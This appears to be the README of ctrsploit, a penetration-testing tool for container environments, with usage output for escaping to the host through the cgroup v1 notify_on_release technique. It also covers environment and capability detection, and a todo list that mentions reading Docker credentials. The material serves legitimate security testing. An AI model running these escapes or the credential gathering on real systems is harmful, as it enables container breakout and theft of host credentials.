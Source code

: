 # ctrsploit: 一个容器场景自动化渗透测试工具

## Usage
### Help
```
wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### run a exploit
```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:
```
root@host # docker run -ti --rm --security-opt="seccomp=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

如果我们不知道容器rootfs在宿主机上的路径，我们仍然可以完成逃逸：
```
[root@container /]# ./ctrsploit e ra3 -c "cat /etc/hostname"
INFO[0000] trying 100                                   
INFO[0000] trying 200                                   
INFO[0000] trying 300                                   
INFO[0000] trying 400                                   
INFO[0000] trying 500                                   
...
INFO[0017] trying 11700                                 
INFO[0017] found /output140128693, success              
INFO[0018] 
===========start of result==============
cce-arm-euler28-30231
===========end of result============== 
```

### 信息收集
usage
```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：
```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

查看cgroup版本
```
root@ctr:/# ./ctrsploit env c
INFO[0000] ===========Cgroups=========
is cgroupv1: ✘
is cgroupv2: ✔ 
```

存储驱动
```
root@ctr:/# ./ctrsploit env g
INFO[0000] ===========Overlay=========
Overlay enabled: false 
INFO[0000] ===========DeviceMapper=========
DeviceMapper enabled: true
DeviceMapper used: true
The number of devicemapper used in running container: 11 ( =(count(running containers)+1) )
The host path of container's rootfs: /var/lib/docker/devicemapper/mnt/1659264e845b55b8c9ec42034d7d2dcc23159ebd06f3c69983e764f26eab9721/rootfs 
```

capability
```
root@ctr:/# ./ctrsploit env cap
INFO[0000] ===========Capability=========
pid 1
[caps]
0xa82425fb != default(0xa80425fb)

[parsed]
[CAP_CHOWN CAP_DAC_OVERRIDE CAP_FOWNER CAP_FSETID CAP_KILL CAP_SETGID CAP_SETUID CAP_SETPCAP CAP_NET_BIND_SERVICE CAP_NET_RAW CAP_SYS_CHROOT CAP_SYS_ADMIN CAP_MKNOD CAP_AUDIT_WRITE CAP_SETFCAP]

[Additional Capabilities]
["CAP_SYS_ADMIN"]

current process
[caps]
0xa82425fb != default(0xa80425fb)

[parsed]
[CAP_CHOWN CAP_DAC_OVERRIDE CAP_FOWNER CAP_FSETID CAP_KILL CAP_SETGID CAP_SETUID CAP_SETPCAP CAP_NET_BIND_SERVICE CAP_NET_RAW CAP_SYS_CHROOT CAP_SYS_ADMIN CAP_MKNOD CAP_AUDIT_WRITE CAP_SETFCAP]

[Additional Capabilities]
["CAP_SYS_ADMIN"]
```

## Pre-Built Release
https://github.com/ssst0n3/ctrsploit/releases

## Todo List
- [ ] 环境探测
    - [ ] 当前是否处于容器环境内
      - [ ] 当前集群环境
        - [ ] swarm
        - [x] k8s
          - [x] `ls -lah /var/run/secrets/kubernetes.io`
          - [x] `cat /proc/self/mountinfo | grep hosts |grep pods`
          - [x] `cat /proc/self/cgroup |grep kubepods`
          - [x] `cat /etc/hostname`
      - [ ] 当前cri
        - [x] docker
          - [x] `ls -lah /.dockerenv`
          - [x] `head -n 1 /proc/self/mountinfo | grep docker`
          - [x] `cat /proc/self/cgroup |grep docker`
          - [x] `cat /proc/self/mountinfo | grep "hosts|hostname" |grep docker`
          - [x] `cat /etc/hostname` // not convinced
        - [ ] containerd
        - [ ] ...
    - [ ] 当前容器版本探测
      - [ ] cluster api: curl -k https://10.0.0.233:5443/apis/version.cce.io/v1beta1 --header "Authorization: Bearer $token"
    - [ ] 当前容器完整ID
    - [ ] 安全机制开启情况
        - [ ] 当前容器capability
        - [ ] 是否开启seccomp
        - [ ] 是否开启LSM
        - [ ] cgroup
            - [ ] cgroup version
                - [x] v1
                - [x] v2
    - [ ] block dev name
        - [ ] /sys/block/nvme0n1
    - [ ] 容器rootfs在宿主机的绝对路径
        - [ ] docker
        - [ ] k8s variant 1
        - [ ] k8s variant 2
    - [ ] openstack api accessibility
    - [ ] graphdriver
        - [x] overlay
        - [x] devicemapper
        - [ ] aufs
- [ ] execute
    - [ ] outside of container
        - [ ] get docker credentials
            - [ ] $HOME/.docker/config.json
- [ ] exploit
    - [ ] CVE-2019-16884
    - [ ] CVE-2019-14271
    - [ ] CVE-2021-21285  
    - [ ] 挂载目录->软链接->再次挂载 逃逸
    - [x] cgroupv1 notify_on_release escape
        - [x] unknown rootfs support 
    - [x] cgroupv1 notify_on_release escape with unknown rootfs
- [ ] auto exploit